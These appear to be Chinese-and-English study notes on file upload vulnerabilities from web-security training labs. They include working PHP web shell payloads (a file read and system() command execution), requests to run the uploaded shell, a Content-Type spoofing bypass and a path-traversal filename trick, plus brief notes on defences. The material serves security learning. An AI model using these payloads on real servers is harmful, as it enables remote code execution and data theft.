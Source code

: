 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

## Lab: Remote code execution via web shell upload
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png

## Lab: Web shell upload via Content-Type restriction bypass
- change Content-Type : image/jpeg

## Lab: Web shell upload via path traversal
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php <br>

黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    -<"staticContent>
        <mimeMap fileExtension=".json" mimeType="application/json" />
        </staticContent">
